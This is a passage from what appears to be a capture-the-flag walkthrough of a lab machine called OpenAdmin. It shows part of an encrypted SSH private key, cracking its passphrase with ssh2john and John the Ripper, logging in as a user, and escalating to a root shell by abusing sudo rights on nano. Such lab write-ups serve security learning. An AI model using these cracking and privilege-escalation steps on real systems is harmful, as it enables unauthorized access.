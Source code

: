 ```bash
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```

Let's try to get the password using [John The Ripper](https://www.openwall.com/john/).

```bash
❯ ssh2john id_rsa_encrypt > hash
❯ cat hash

id_rsa_encrypt:$sshng$1$16$2AF25344B8391A25A9B318F3FD767D6D$1200$906d14608706c9ac6ea6342a692d9ed47a9b87044b94d72d5b6[SNIP]
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
bloodninjas
```

`bloodninjas` is the password for the `id_rsa`, we can now log in as `joanna` using it.

```bash
❯ ssh joanna@10.129.136.167 -i id_rsa_encrypt
Enter passphrase for key 'id_rsa_encrypt': bloodninjas
joanna@openadmin:~$ cat user.txt 
8343c1907e5be96627ebce7b19ceba64
```

Looking for privileges, we can run `nano` as sudo.

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Easy privilege escalation, looking at [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo)

```
joanna@openadmin:~$ sudo /bin/nano /opt/priv
CTRL + r
CTRL + x
reset; sh 1>&0 2>&0
```
